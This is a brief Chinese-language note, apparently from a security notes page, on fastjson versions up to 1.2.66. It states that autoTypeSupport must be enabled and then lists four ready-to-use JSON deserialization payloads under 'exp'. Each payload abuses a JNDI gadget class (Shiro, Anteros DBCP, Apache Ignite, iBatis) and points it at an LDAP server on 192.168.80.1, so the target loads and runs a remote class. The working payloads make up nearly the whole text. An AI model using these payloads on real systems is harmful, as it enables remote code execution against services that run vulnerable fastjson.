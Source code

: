 影响版本：  
- fastjson<=1.2.66

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：
```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}

{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}

{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}

{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1399/Calc"}}
```


